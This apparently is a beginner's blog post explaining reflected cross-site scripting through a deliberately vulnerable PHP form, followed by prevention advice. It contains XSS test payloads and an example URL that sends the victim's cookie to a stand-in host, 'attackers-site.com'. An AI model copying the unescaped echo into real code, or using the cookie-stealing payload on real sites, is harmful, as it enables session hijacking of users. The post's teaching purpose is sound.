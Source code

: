 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a simple form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      echo "<p>Hi " . $_GET['fname'] . "!</p>";
    }
  ?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing in my name, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking that "isn't this how the above form should work". But what if someone submits the following text as input.

```html
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```html
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/5.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. This ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we were to pass javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/4.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent XSS? 
Some of the ways we can prevent XSS are:
Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can also be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that the above mechanisms serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 